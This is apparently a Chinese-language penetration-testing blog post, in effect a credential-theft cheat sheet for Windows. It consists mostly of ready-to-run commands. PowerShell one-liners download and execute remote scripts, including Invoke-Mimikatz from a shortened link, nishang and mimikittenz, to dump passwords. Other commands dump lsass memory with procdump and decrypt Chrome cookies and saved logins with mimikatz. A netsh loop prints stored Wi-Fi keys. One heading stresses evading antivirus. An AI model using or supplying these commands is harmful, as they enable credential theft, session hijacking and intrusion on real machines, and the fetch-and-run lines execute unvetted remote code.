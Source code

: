 ```yaml
---
layout:     post
title:       Mimikatz读取chrome浏览器cookies，password
subtitle:   Mimikatz读取密码
date:       2020-06-29
author:     BugMan
header-img: img/post-bg-hacker.jpg
catalog: true
tags:
    - google
    - 渗透测试

---
```

### 1.2免杀抓取密码的两种方式

```
powershell "IEX (New-Object Net.WebClient).DownloadString('http://is.gd/oeoFuI'); Invoke-Mimikatz -DumpCreds"
tips:powershell 默认windows visa后才有
```

procdump lsass 进程导出技巧
C:\temp\procdump.exe -accepteula -ma lsass.exe lsass.dmp //For 32 bits

C:\temp\procdump.exe -accepteula -64 -ma lsass.exe lsass.dmp //For 64 bits
然后本地使用mimikatz 还原密码
### mimikatz 读取chrome cookies

```
mimikatz.exe privilege::debug log "dpapi::chrome /in:%localappdata%\google\chrome\USERDA~1\default\cookies /unprotect" exit

mimikatz.exe privilege::debug log "dpapi::chrome /in:%localappdata%\google\chrome\USERDA~1\default\USERDA~1" exit

mimikatz.exe privilege::debug log "dpapi::chrome /in:%localappdata%\google\chrome\USERDA~1\default\LOGIND~1" exit //读chrome密码
```
### powershell 常用工具的信息收集工具

FTP访问、共享连接、putty连接 驱动、应用程序、hosts 文件、进程、无线网络记录

```
powershell "IEX (New-Object Net.WebClient).DownloadString(' https://github.com/samratashok/nishang/tree/master/Gather/Gather/Get-Information.ps1'); Get-Information"
```

正则过滤进程密码，已测windows7

```
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/putterpanda/mimikittenz/master/Invoke-mimikittenz.ps1'); Invoke-mimikittenz

sqlserver密码获取工具Get-MSSQLCredentialPasswords.psm1 //未测
```
### 查看wifi密码
```
for /f "skip=9 tokens=1,2 delims=:" %i in ('netsh wlan show profiles') do  @echo %j | findstr -i -v echo | netsh wlan show profiles %j key=clear
```



